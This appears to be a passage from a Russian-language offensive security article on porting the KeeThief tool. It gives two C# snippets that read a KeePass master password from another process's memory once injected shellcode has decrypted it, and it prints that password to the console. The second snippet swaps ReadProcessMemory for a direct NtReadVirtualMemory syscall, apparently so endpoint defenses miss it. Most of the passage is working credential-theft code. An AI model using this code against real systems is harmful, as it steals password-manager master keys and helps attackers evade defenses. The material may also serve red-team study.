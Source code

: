 ```csharp
        IntPtr NumBytes;
        byte[] plaintextBytes = new byte[key.encryptedBlob.Length];

        // вызываем саму функцию ReadProcessMemory, передавая в качестве аргумента адрес области памяти, откуда надо считать мастер-пароль (EncryptedBlobAddr)
        int res = Win32.ReadProcessMemory(ProcessHandle, EncryptedBlobAddr, plaintextBytes, plaintextBytes.Length, out NumBytes);
        if (res != 0 && NumBytes.ToInt64() == plaintextBytes.Length)
        {
            // если успешно, присваиваем результат полю plaintextBlob объекта key и выводим его в консоль
            key.plaintextBlob = plaintextBytes;
            Logger.WriteLine(key);
        }
    }
}
```

Здесь происходит чтение уже расшифрованной области памяти (после завершения работы шеллкода) в удаленном процессе. Я выбрал портирование функции `ReadProcessMemory` для примера не случайно, поскольку в этом случае нужно больше всего повозиться с типом передаваемых параметров.

Вот, что у меня получилось.

```csharp
static class Program
{
    public static void ExtractKeyInfo(IUserKey key, IntPtr ProcessHandle, bool DecryptKeys)
    {
        // https://github.com/snovvcrash/KeeThief/blob/3a1415e247688bc581f4dd036a6709737b3b3848/KeeTheft/KeeTheft/Program.cs#L161-L174

        // Read plaintext password!

        // ждем, пока отработает шеллкод
        Thread.Sleep(1000);

        // объявляем переменную для количества прочитанных байт и указатель на неуправляемую область памяти для сохранения результата
        uint NumBytes = 0;
        IntPtr pPlaintextBytes = Marshal.AllocHGlobal(key.encryptedBlob.Length);

        // вызываем саму функцию ReadProcessMemory, передавая в качестве аргумента адрес области памяти, откуда надо считать мастер-пароль (EncryptedBlobAddr)
        if (Syscalls.NtReadVirtualMemory(ProcessHandle, EncryptedBlobAddr, pPlaintextBytes, (uint)key.encryptedBlob.Length, ref NumBytes) == 0 && NumBytes == key.encryptedBlob.Length)
        {
            // если успешно, перебрасываем считанные байты из неуправляемой области памяти в статический массив
            byte[] plaintextBytes = new byte[NumBytes];
            Marshal.Copy(pPlaintextBytes, plaintextBytes, 0, (int)NumBytes);

            // присваиваем результат полю plaintextBlob объекта key и выводим его в консоль
            key.plaintextBlob = plaintextBytes;
            Logger.WriteLine(key);
        }

        // освобождаем неуправляемую память, выделенную ранее
        Marshal.FreeHGlobal(pPlaintextBytes);
    }
}
```


[//]: # (2022-03-29)